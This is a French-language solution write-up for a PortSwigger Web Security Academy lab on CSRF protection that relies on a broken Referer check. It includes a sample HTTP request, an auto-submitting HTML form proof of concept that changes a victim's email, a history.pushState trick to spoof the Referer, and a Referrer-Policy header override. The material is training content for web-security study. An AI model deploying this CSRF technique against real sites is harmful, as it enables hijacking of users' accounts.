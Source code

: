 # Lab

https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken

## Solution

Sur ce lab, la fonctionnalité de changement d'adresse mail est protégée par le header `Referer`.

La vérification est faire sur le header `Referer`.

Contrairement au lab d'avant, on ne peut pas bypass ce contrôle en supprimant le header `Referer`.

En revhanche, avec cette requête, le mail est changé :

```http
POST /my-account/change-email HTTP/2
Host: 0ab5001b038d0a9580c803a3009500ba.web-security-academy.net
Cookie: session=VKvvjDf8vlnzX66BLvNHnW9wYQBMkECG
Content-Length: 25
Content-Type: application/x-www-form-urlencoded
Referer: https://exploit-0a54007e03570ad5801302d501f7009f.exploit-server.net/?https://0ab5001b038d0a9580c803a3009500ba.web-security-academy.net

email=wiener@normal.net
```

En injectant l'url du site dans le header `Referer`, on peut bypass le contrôle.

Via l'exploit server on peut créer ce POC :

```html
<html>
  <body>
    <form action="https://0ab5001b038d0a9580c803a3009500ba.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@mcdo.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?https://0ab5001b038d0a9580c803a3009500ba.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Par contre, on voit que le contrôle est bloqué parceque par défaut certains navigateurs coupent les query string dans le header `Referer`.

Pour override ce comportement et être sûr que l'URL complète est inclue dans la requête, on peut injecter le header `Referrer-Policy: unsafe-url` dans la réponse du POC.

```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```